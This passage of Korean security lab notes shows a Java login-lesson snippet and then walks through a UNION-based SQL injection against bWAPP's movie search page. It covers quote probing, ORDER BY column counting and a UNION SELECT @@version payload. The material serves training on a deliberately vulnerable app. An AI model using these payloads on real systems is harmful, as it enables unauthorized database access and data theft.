 ``` java
				if (answer_results.first())
				{
					setSessionAttribute(s, getLessonName() + ".isAuthenticated", Boolean.TRUE);
					setSessionAttribute(s, getLessonName() + "." + SQLInjection.USER_ID, userId);
					authenticated = true;
				}
			} catch (SQLException sqle)
			{
				s.setMessage("Error logging in");
				sqle.printStackTrace();
			}
		} catch (Exception e)
		{
			s.setMessage("Error logging in");
			e.printStackTrace();
		}

		// System.out.println("Lesson login result: " + authenticated);
		return authenticated;
	}
```





#4. UNION 구문을 입력 => 공격자가 원하는 정보를 조회

@Kali#2 브라우저로 bWAPP로 접속

Choose your bug: SQL Injection (GET/Search) 선택 후 Hack 버튼 클릭 > 영화 정보 조회 서비스

0. 정상적인 입력을 통해서 쿼리 실행 결과를 확인

man으로 검색

⇒ select * from movies where like '%**man**%'

1. a' 입력해서 인젝션 여부를 확인

a' ⇒ select * from movies where like '%**a'**%'

2. 정상적인 쿼리가 몇 개의 컬럼을 반환하는지 확인

```sql
select * from movies where like '%man' order by 1 -- %'
		:
select * from movies where like '%man' order by 8 -- %'
⇒ Error: Unknown column '8' in 'order clause' ⇐ 7 컬럼이 존재
```

3. UNION 구문을 이용해서 DB정보를 출력

```sql
select * from movies where like '%man' and 1=2 union select @@version,2,3,4,5,6,7 -- %'
```

=> 2, 3, 5, 4 가 출력
